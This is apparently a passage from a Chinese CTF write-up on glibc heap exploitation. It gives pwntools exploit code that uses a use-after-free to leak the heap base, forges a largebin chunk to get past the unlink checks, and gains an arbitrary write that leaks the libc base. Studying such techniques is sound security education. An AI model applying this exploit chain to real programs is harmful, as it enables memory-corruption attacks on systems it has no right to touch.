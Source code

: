 ```python
dele(0x0)
gdb.attach(io)
add(0x400, '0'*0x400)  #申请一个较大的块，使得unsorted bin数组清空
# leak
show(0xb)  ##泄露得到堆地址
io.recvuntil('num: ')
print hex(c_uint32(int(io.recvline()[:-1])).value)
io.recvuntil('description:')
HEAP = u64(io.recvline()[:-1]+'\x00\x00')-0x7e0
log.info("heap base 0x%016x" % HEAP)
```

### 伪造largebin chunk

在上一步泄露了heap地址，剩下的前期任务就是要泄露libc。使用的方法就是利用的伪造largebin chunk。不需要将伪造的堆块释放，修改之前被释放堆块的bk\_nextsize字段即可，对应到源代码中代码即`victim = victim->bk_nextsize`，这一点使用UAF即可做到，但想要将该堆块申请出来，还需要绕过unlink的限制，这也可以通过UAF实现。在可以将伪造的堆块申请出来之后，我们可以在伪造的堆块中包含有正常的small bin，这样就可以达到泄露出libc地址以及修改内存的目的。

```python
target_addr = HEAP+0xb0     # 1
chunk1_addr = HEAP+0x130    # 2
chunk2_addr = HEAP+0x1b0    # 3
victim_addr = HEAP+0xc30    # b
# large bin attack
edit(0xb, p64(chunk1_addr))             # victim  ##修改victim = victim->bk_nextsize，伪造堆块开始
edit(0x1, p64(0x0)+p64(chunk1_addr))    # target ##这一步是为了绕过unlink的fd与bk检查
chunk2  = p64(0x0)
chunk2 += p64(0x0)
chunk2 += p64(0x421)
chunk2 += p64(0x0)
chunk2 += p64(0x0)
chunk2 += p64(chunk1_addr)  ##这一步是为了绕过fd_nextsize与bk_nextsize检查
edit(0x3, chunk2) # chunk2
chunk1  = ''
chunk1 += p64(0x0)
chunk1 += p64(0x0)
chunk1 += p64(0x411)
chunk1 += p64(target_addr-0x18)
chunk1 += p64(target_addr-0x10)
chunk1 += p64(victim_addr)
chunk1 += p64(chunk2_addr)  ##伪造的堆块
edit(0x2, chunk1) # chunk1
edit(0x7, '7'*0x198+p64(0x410)+p64(0x411))  ##伪造的堆块后加上结构体。
dele(0x6)
dele(0x3)
add(0x3f0, '3'*0x30+p64(0xdeadbeefdeadbeef)) # chunk1, arbitrary write !!!!!!! ##将伪造的堆块申请出来，从此便可为所欲为。。。
add(0x60,  '6'*0x60 ) # 
show(0x3) ##伪造的堆块中包含small bin，泄露libc地址
io.recvuntil('3'*0x30)
io.recv(8)
LIBC = u64(io.recv(6)+'\x00\x00')-0x3c4be8
log.info("libc base 0x%016x" % LIBC)
```
